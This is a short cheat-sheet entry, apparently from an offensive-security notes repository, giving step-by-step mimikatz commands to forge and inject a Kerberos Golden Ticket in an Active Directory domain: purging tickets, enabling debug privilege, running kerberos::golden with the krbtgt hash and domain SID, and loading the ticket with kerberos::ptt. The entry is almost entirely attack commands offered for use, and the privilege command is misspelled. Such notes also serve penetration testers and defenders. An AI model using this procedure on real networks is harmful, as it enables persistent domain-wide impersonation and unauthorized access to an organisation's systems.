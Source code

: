 # Golden Ticket

**Description:** This entry describes how to create a Golden ticket in Active Directory environments

**Requirements:** mimikatz

## Creating and loading Golden Ticket

```
klist purge
```

Purge all ticket

```
mimikatz# privilige::debug
Privilige '20' OK
```

Check privilege level

```
mimikatz# kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /<cipher_type(e.g. AES256)><krbtgt_hash> /ticket:<generated_ticket_name>
```

Create Golden ticket

```
debug# kerberos::ptt <ticket_name>
```

Load Golden ticket
  
## References
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos